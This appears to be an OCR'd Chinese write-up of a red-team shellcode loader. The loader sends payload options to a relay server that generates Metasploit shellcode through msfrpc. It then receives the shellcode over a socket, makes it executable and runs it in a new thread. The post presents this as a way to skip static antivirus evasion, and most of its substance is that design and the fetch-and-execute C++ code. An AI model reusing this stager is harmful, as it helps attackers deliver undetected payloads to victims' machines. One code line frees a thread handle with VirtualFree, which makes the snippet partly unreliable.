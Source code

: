 - 网络连接
- 内存管理
- 线程管理

流程大致如下：

### 第一步

运行起来后，程序先申请一块内存空间：

```
CONST INT PAYLOAD_LEN = 200;

struct stager {
	char payload[PAYLOAD_LEN];
	char options[PAYLOAD_LEN];
};
```

假设为 200x2 = 400字节大小。

第一块放要使用的payload，第二块放payload的设置选项，以逗号分隔。

通过server中转相当于把msfvenom实现在本地了。

### 第二步

读取用户输入：GetCommandline()

然后将输入的参数放入stager结构体。


### 第三步

连接Server，将结构体发送到Server，Server通过struct解析payload与options，调用msfrpc，生成shellcode，返回给Loader。

代码片段：

```
// 连接套接字
	while (connect(socks, (struct sockaddr*) & sock_addr, sizeof(sock_addr)) == SOCKET_ERROR) {
		cout << "[!]Connect error ! " << GetLastError() << endl;
		Sleep(5000);
		continue;
	}

	send(socks, (char*)& sd, sizeof(sd), 0);
	recv(socks, (char*)& dwPayloadLength, sizeof(DWORD), 0);
	Sleep(3000);
	CHAR* pSpace = (CHAR*)VirtualAlloc(NULL, dwPayloadLength, MEM_COMMIT, PAGE_READWRITE);
	recv(socks, pSpace, dwPayloadLength,0);
	closesocket(socks);
	VirtualProtect(pSpace, dwPayloadLength, PAGE_EXECUTE_READ, &dwOldProtect);
	hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)pSpace, NULL, NULL, NULL);
	WaitForSingleObject(hThread, INFINITE);
	VirtualFree(hThread, 0, MEM_RELEASE);
```

至此，演练环境下不需要考虑静态免杀的问题了，只需要提前搭建好Server、Metasploit RPC Server，剩下的就靠Console Server和Loader配合，Shellcode全在网络中传输……

目前我没实现流量加密，也就是说第一个数据包是明文的，后续会采用RC4等优化。

由于工具有些敏感，暂时就先抛出思路来~

